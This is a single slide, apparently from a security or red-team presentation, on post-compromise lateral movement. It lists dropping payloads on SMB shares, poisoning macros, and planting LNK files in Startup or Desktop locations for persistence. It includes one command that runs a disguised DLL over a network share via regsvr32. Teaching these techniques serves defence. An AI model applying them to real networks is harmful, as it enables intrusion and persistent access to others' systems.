

# Post-Compromise Lateral Movement
Drop payload on SMB share
Look for custom binaries
Poison existing frequently-used macro
Drop LNK file to useful location:
Start Up folder
Desktop (hotkey persistence)
LNK Contents:
Command to execute dropped payload file
regsvr32.exe \\fileserver\writeableshare\totallylegit.dll